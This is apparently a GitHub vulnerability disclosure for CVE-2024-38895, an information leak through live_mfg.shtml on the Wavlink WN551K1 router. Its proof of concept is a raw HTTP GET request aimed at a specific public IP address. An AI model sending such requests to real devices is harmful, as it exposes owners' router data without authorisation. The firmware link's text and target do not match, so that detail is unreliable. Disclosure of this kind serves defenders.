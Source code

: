 # Wavlink WN551K1'live_mfg.shtml enables attackers to obtain sensitive router information.

Product: Wavlink WN551K1

Manufacturer's website information：https://www.wavlink.com/en_us/index.html

Firmware download address ：[https://files.wavlink.com/fw/mesh/WN551K1%2CK2%2CK3-C-WAVLINK-WO-20210427-1087985](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/257/ids/36.html)

### CVE-ID : 

CVE-2024-38895

### Analysis

WAVLINK WN551K1'live_mfg.shtml enables attackers to obtain sensitive router information.

![image-20240624093926339](./image-20240624093926339.png)

### POC

```
GET /live_mfg.shtml HTTP/1.1
Host: 42.2.134.152
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 32
Upgrade-Insecure-Requests: 1
```




